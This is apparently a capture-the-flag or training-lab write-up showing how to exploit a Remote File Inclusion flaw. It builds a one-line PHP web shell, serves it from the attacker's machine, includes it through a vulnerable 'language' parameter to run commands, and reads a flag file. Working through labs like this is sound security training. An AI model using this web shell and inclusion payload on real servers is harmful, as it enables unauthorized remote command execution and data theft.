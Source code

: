 # Remote File Inclusion (RFI)

#### Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /

**Step 1** - Test for RFI:

* On the suspicious vulnerable URL, include a local URL:
  * `http://127.0.0.1/index.php`

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

* We successfully loaded the index.php again

**Step 2** - Create a custom web shell:

* Shell script:
  * ```bash
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```
* Host the shell:
  * ```bash
    sudo python3 -m http.server LISTENING_PORT
    ```

**Step 3** - Test the web shell and look for the flag:

* Insert the host URL with a command on the vulnerable parameter:
  * {% code overflow="wrap" %}
    ```bash
    http://SERVER_IP/index.php?language=http://OUR_IP:LISTENING_PORT/shell.php&cmd=id
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

* From the output above, our web shell is working perfectly
* Look for the flag wih `cat ../../../exercise/flag.txt`:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

And we got another flag!
